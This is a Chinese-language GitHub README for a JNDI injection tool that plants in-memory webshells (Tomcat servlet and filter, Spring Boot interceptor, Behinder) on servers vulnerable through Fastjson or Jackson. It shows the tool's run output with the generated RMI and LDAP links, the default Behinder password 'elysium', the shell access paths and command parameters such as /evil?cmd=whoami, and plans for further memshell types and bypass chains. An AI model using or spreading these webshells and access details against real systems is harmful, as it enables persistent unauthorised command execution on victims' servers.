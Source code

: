 ## 介绍

JNDI注入利用工具，生成JNDI链接并启动后端相关服务，可用于Fastjson、Jackson等相关漏洞的验证。

最开始做项目的初衷是因为，遇到一些场景只能用RMI注入，无法使用LDAP注入，但是找了一段的时间之后发现Github中并没有很合心意的RMI注入工具，于是原本想自己做一个RMI注入内存马的工具，参考了一下welk1n佬的项目，结果发现佬写的精妙，可以改动的地方很少了已经，索性直接fork大佬的项目，添加工具。
原仓库地址：https://github.com/welk1n/JNDI-Injection-Exploit

冰蝎内存🐴默认密码:elysium

## 更新功能

### 内存马注入

直接运行jar包，可以看到添加了Tomcat Memshell、Behinder两种内存马（还在更新中）

```shell
$ java -jar JNDI-Injection-Memshell-1.0-SNAPSHOT-all.jar          
[ADDRESS] >> 127.0.0.1
[COMMAND] >> open -a Calculator
----------------------------JNDI Links---------------------------- 
Target environment(Behinder Filter Memshell):
rmi://127.0.0.1:1099/0gzbmk
ldap://127.0.0.1:1389/0gzbmk
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/q7empz
ldap://127.0.0.1:1389/q7empz
Target environment(Tomcat Servlet Memshell):
rmi://127.0.0.1:1099/knesin
ldap://127.0.0.1:1389/knesin
Target environment(Behinder Servlet Memshell):
rmi://127.0.0.1:1099/gfco3c
ldap://127.0.0.1:1389/gfco3c
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://127.0.0.1:1099/emytl0
Target environment(Springboot Interceptor Memshell):
rmi://127.0.0.1:1099/jdky8b
ldap://127.0.0.1:1389/jdky8b
Target environment(Springboot Interceptor Behinder Memshell):
rmi://127.0.0.1:1099/4mpkre
ldap://127.0.0.1:1389/4mpkre
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://127.0.0.1:1099/3uzhzd
ldap://127.0.0.1:1389/3uzhzd
Target environment(Tomcat Filter Memshell):
rmi://127.0.0.1:1099/93hurt
ldap://127.0.0.1:1389/93hurt

----------------------------Server Log----------------------------
2023-08-29 13:00:30 [JETTYSERVER]>> Listening on 0.0.0.0:8180
2023-08-29 13:00:30 [RMISERVER]  >> Listening on 0.0.0.0:1099
2023-08-29 13:00:31 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

- Tomcat Servlet Memshell

  - 命令执行Servlet内存马：路径/shell，参数cmd

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/1.jpg)

- Behinder Servlet Memshell

  - 冰蝎Servlet内存马：路径/shell，密码:elysium

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/2.jpg)

- Springboot interceptor Memshell
  - springboot的拦截器内存马，在request header中的command为入参执行命令

    ![](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/3.jpg)
	
- Springboot interceptor Behinder Memshell:
  
	- springboot拦截器冰蝎内存马，在request header中的shell参数中跟上Behinder，输入密码即可连接
	
	![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/4.jpg)

- Tomcat Filter Memshell:
  - Tomcat filter内存马，在访问路径/evil?cmd=whoami，可以执行命令
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/5.jpg)

- Behinder Filter Memshell:
  - Behinder filter内存马，访问路径/behinderFilter,并在request header中的shell参数中跟上Behinder，输入密码即可连接
    ![ ](https://raw.githubusercontent.com/MUYU212/JNDI-Injection-Memshell/main/screenshot/6.jpg)
    
## Tips:

Q:为什么有了Servlet/Controller内存马还是需要Interceptor内存马呢？

A:如果服务端存在拦截器，指定如果未登录的状态除了/login接口其他都不执行，访问就会跳转回/login接口的话。这个controller的内存马不就访问不到了吗？访问不到就形同虚设了。所以controller的内存马并不能作为一种通用的内存马进行注入，于是就需要注入interceptor内存马了。

## 待实现

- 添加~~filter~~、~~Interceptor~~类型的内存马。
- 融合groovy的bypass利用链到项目中。
- 更新weblogic以及其他中间件的内存马注入环境
- 增加注入哥斯拉内存马的模块
- 加入websocket内存马


喜欢的朋友可以帮忙点一个Star。 :）

## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=MUYU212/JNDI-Injection-Memshell&type=Date)](https://star-history.com/#MUYU212/JNDI-Injection-Memshell&Date)
